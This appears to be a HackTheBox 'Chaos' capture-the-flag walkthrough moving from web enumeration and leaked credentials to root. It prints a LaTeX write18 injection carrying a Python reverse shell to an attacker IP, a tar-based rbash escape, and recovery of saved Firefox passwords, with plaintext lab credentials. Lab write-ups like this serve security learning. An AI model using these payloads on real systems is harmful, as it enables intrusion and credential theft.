

# USER

Website does not allow ```Direct IP```?
By adding the ip to the host file we're able to access the webpage. This is through **virtual host routing**

GoBuster
```
10.10.10.120
    /wp
    /javascript

chaos.htb
    /img
    /css
    /source
    /js
    /javascript
    /server-status
 ```

By typing ``human`` into the /wp end point we get creds. This is due to ```human``` being the poster

```
ayush
jiujitsu
```

By changing the virutal host to ```webmail.chaos.htb``` we can find a webmail login. This allows a login using the creds

An email is present in the drafts

```
Hii, sahay
Check the enmsg.txt
You are the password XD.
Also attached the script which i used to encrypt.
Thanks,
Ayush
```

Contains two files. They can be found in the ```./Encryption``` directory

After a decode we get this message:
```
Hii Sahay

Please check our new service which create pdf

p.s - As you told me to encrypt important msg, i did :)

http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3

Thanks,
Ayush
```

The endpoint is a PDF creator that uses LaTeX. After a quick search I was able to find a payload for LaTeX:
```
\immediate\write18{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.55",6868));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  | base64 > test.txt}
\newread\file
\openin\file=test.txt
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

We spawn as a www-data user. Using the password for ayush ealier we can log onto his account.

We are entered into an ```rbash``` session

Note: Echo can be used in place of ls

```
echo /<dir>/*
```

Using tar we can escape our shell
```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```


Fixes issues with commands not being found
```
export PATH=/usr/bin:/bin:/usr/sbin:/sbin:/usr/local/bin
```

# ROOT

By loading in a .mozilla profile we can get saved
passwords. This can be achieved using the profile manager

```
root
Thiv8wrej~
```

This lets us logon as root and obtain the root.txt
